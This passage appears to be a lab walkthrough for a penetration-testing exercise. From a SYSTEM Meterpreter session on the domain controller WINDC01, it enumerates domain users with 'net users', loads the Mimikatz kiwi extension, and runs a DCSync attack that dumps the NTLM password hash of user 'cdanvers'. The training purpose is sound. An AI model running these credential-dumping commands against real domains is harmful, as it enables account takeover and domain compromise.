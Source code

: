 1. In the SYSTEM Meterpreter shell on WINDC01, enter a `shell`.

	- `shell`
	
	- ![Screenshot depicts entering a command shell.](Images/shell.PNG)	
	
2. Next, type `net users` to view the users on the machine. Performing this command on a non-domain controller will only display local users. Since we're on a domain controller, there are no local users and all users on a domain controller are domain users, thus `net users` displays all users in the domain.

	- `net users` 
	
	- ![Screenshot depicts displaying the domain users.](Images/netusers.PNG)	
	
3. `exit` the command shell and load `kiwi`.

	- `exit`
	
	- `load kiwi`

4. Now that we have a list of users, we can request their NTLM passwords via DCSync attack.

	- `dcsync_ntlm cdanvers`
	
	- ![Screenshot depicts dcsyncing the cdanvers user.](Images/dcsync.PNG)	
	